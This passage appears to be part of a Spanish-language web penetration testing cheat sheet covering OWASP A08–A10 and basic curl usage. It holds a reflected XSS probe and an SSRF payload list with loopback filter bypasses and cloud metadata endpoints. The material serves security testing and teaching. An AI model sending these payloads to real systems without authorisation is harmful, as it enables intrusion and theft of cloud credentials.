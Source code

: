 ### **8. Software Integrity Failures (A08:2021)**

#### **Detección**
```bash
# Verificar integridad de recursos
curl -s http://target | grep -E "integrity=|crossorigin="

# CDN externos sin verificación
curl -s http://target | grep -o 'src="http[^"]*"' | grep -v target.com
```

### **9. Logging Failures (A09:2021)**

#### **Tests**
```bash
# Generar eventos que deberían loggearse
curl -d "user=admin&pass=wrongpass" http://target/login
curl http://target/admin/sensitive-action
curl "http://target/search?q=<script>alert('xss')</script>"

# Verificar si se registran
curl http://target/logs/ 2>/dev/null | grep -q "admin"
```

### **10. Server-Side Request Forgery (A10:2021)**

#### **Payloads SSRF**
```bash
# Localhost
http://localhost:80/
http://127.0.0.1:22/
http://0.0.0.0:3306/

# Bypass filters
http://127.1:80/
http://2130706433/ (decimal de 127.0.0.1)
http://017700000001/ (octal de 127.0.0.1)

# Cloud metadata
http://169.254.169.254/latest/meta-data/
http://metadata.google.internal/computeMetadata/v1/
```

## **SYMBOL HERRAMIENTAS DE DETECCIÓN NATIVAS**

### **Curl para Web Testing**
```bash
# Headers completos
curl -I -X GET http://target

# POST con datos
curl -d "param1=value1&param2=value2" http://target/form

# Cookies
curl -b "session=abc123" http://target/protected

# User agent personalizado
curl -A "Custom-Agent/1.0" http://target

# Seguir redirects
curl -L http://target

# Tiempo de respuesta
```